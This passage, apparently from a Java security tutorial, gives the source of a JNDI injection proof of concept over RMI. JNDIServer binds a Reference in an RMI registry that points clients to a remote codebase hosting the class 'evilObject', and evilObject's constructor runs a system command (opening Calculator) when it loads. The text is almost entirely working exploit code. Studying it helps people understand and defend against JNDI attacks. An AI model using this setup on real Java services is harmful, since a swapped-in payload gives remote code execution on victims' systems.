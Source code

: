 ```java
}
```

 - JNDIServer.java

```java
package org.h3rmesk1t.jndi.RMIAttack;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 6:09 上午
 */
public class JNDIServer {

    public static void main(String[] args) throws Exception {

        String className = "evilObject";
        String factoryName = "evilObject";
        String factoryLocationURL = "http://127.0.0.1:4444/";

        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference(className, factoryName, factoryLocationURL);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        System.out.println("Binding 'referenceWrapper' to 'rmi://127.0.0.1:1099/reference'");
        registry.bind("reference", referenceWrapper);
    }
}
```

 - evilObject.java

```java
import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/5 11:17 上午
 */
public class evilObject {

    public evilObject() {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

